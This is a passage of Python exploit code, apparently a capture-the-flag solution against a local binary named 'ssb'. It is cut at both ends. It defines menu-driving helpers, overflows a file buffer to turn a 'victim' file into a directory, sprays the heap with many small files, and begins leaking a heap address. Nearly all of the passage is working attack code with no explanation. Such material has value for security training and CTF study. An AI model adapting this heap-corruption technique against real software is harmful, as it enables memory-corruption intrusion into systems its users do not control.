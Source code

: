 ```python
    sock.recvuntil("name: ")
    sock.sendline(name)

def change_directory(name):
    sock.recvuntil("> ")
    sock.sendline("5")
    sock.recvuntil("name: ")
    sock.sendline(name)

def show_file(name):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("name: ")
    sock.sendline(name)
    return sock.recvuntil("\n\n").rstrip()

def remove_file(name):
    sock.recvuntil("> ")
    sock.sendline("6")
    sock.recvuntil("name: ")
    sock.sendline(name)

def list_dir():
    sock.recvuntil("> ")
    sock.sendline("1")
    filelist = []
    while True:
        fname = sock.recvline().rstrip()
        if fname == b'':
            break
        filelist.append(fname)
    return filelist

sock = Process("./ssb")

# Change file:victim to dir:victim
add_file("killer", 0x50, "AAAA")
add_file("victim", 0x58, "BBBB") # malloced!
remove_file("killer")
add_file("killer", 0x50, b'A' * 0x50 + b'\x01' + b'victim')

# Fill filesystem
add_dir("dir1")
add_dir("dir2")
add_dir("dir3")
add_file("big", 0x500, "a")
add_file("small", 0x58, "b")
add_dir("hi")
offset = 9
for directory in ["dir1", "dir2", "dir3"]:
    change_directory(directory)
    for i in range(88):
        if offset < 0x100:
            add_file("{}".format(offset), 0x50, "Hello")
            offset += 1
        else:
            break
    change_directory("..")

# Leak heap address by ptr
change_directory("victim")
addr_heap = 0
for fname in list_dir()[::-1]:
```